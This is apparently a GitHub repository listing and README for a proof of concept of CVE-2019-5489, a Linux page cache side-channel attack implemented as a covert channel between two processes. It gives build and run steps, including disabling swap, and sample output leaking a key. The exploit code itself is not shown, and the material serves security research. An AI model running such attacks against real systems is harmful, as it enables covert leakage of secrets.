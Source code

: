 # CVE-2019-5489

Page Cache Side Channel Attacks (CVE-2019-5489) proof of concept for Linux

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/mmxsrup](https://github.com/mmxsrup) |
| Url      | [https://github.com/mmxsrup/CVE-2019-5489](https://github.com/mmxsrup/CVE-2019-5489)                                               |
| Stars    | 9                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* linux* poc* vulnaribility

</details>

## Readme

# CVE 2019-5489
This repository contains Page Cache Side Channel Attacks (CVE-2019-5489) proof of concept for Linux.

In order to evaluate page cache side channel, I have implemented **covert channel** between two processes.
The sender process send confidential data to a receiver process via the page cache side channel.
Page cache attacks has been mitigated in Linux Kenrel 5.0 and later, so **this PoC will only work before Linux Kernel 5.0**.

NOTE: I've tested works on Ubuntu 18.04, Linux 4.15.0-70.

## Building
Run the following command.
```sh
git clone https://github.com/mmxsrup/CVE-2019-5489
cd CVE-2019-5489
make
```

## Running
Disable swap space to make attack easier.
```sh
swapoff -a
```
### Terminal 1
At first, run the following command on terminal 1.
```sh
make run-sender
```
### Terminal 2
After `sending 1th character ...` is output on the terminal 1, run the following command.
```sh
make run-receiver
```

## Output
If the execution is successful, the following will be output.  
This shows that the key was sent from the Sender process to the Reciver process via page cache side channel.
### Terminal 1
```txt
LD_LIBRARY_PATH=. ./sender
Sender process
ecicting page cache ...
sending 1th character ...
ecicting page cache ...
sending 2th character ...
ecicting page cache ...
sending 3th character ...
ecicting page cache ...
sending 4th character ...
ecicting page cache ...
sending 5th character ...
ecicting page cache ...
sending 6th character ...
ecicting page cache ...
sending 7th character ...
ecicting page cache ...
sending 8th character ...
ecicting page cache ...
sending 9th character ...
```
### Terminal 2
```txt
LD_LIBRARY_PATH=. ./receiver
Sender process
waiting ...
recved caracter(P)
waiting ...
recved caracter(a)
waiting ...
recved caracter(s)
waiting ...
recved caracter(s)
waiting ...
recved caracter(W)
waiting ...
recved caracter(o)
waiting ...
recved caracter(r)
waiting ...
recved caracter(d)
waiting ...
recved caracter()
Received key: PassWord
```

## References
- Daniel Gruss et al. Page cache attacks [CCS 19]



## Get the content

```
git clone https://github.com/mmxsrup/CVE-2019-5489
cd CVE-2019-5489
```

{% embed url="https://github.com/mmxsrup/CVE-2019-5489" %}

<figure><img src="https://avatars.githubusercontent.com/u/19609323?v=4" alt=""><figcaption><p>mmxsrup</p></figcaption></figure>
